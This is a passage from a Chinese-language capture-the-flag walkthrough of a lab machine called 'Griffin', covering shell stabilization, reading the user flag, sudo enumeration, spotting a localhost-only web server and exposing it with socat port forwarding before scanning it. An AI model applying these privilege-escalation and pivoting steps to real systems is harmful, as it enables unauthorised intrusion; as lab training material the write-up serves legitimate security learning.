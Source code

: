 ```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 36 columns 178
```

# **三、权限提升**

## **3.1 本地枚举**

获取`user.txt`中的第一个flag。

```bash
lois@Griffin:/home/lois$ cat user.txt
flag{user-f6b63474e7cc20b0893a82beb9e3b3fd}
```

使用`sudo -l`检查`lois`用户的sudo权限。

```bash
lois@Griffin:/home/lois$ sudo -l
...
User lois may run the following commands on Griffin:
    (ALL) NOPASSWD: /usr/bin/cat /root/startup.log
```

`lois`可以免密使用`cat`命令读取`/root/startup.log`。检查网络连接情况，发现除了公网的`8080`和`22`端口外，还在本地`127.0.0.1`上监听了多个端口，包括一个`80`端口。

```bash
lois@Griffin:/opt$ ss -tnlp
State                   Recv-Q                  Send-Q               Local Address:Port
...
LISTEN                  0                       5                          0.0.0.0:8080
LISTEN                  0                       128                        127.0.0.1:80
...
```

## **3.2 端口转发与Web二次渗透**

由于`80`端口只在本地监听，我们无法直接访问。使用`socat`将本地的`80`端口转发到`8000`端口，以便从外部访问。

```bash
lois@Griffin:/opt$ socat TCP-LISTEN:8000,fork TCP4:127.0.0.1:80 &
```

访问转发后的`http://192.168.205.132:8000/`，这是一个关于"Family Guy"的网站。再次使用`dirsearch`进行目录扫描，发现`robots.txt`文件。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl http://192.168.205.132:8000/robots.txt
User-agent: *
Disallow: /family

...

rockyou: world's best dictionary, hands down!
```
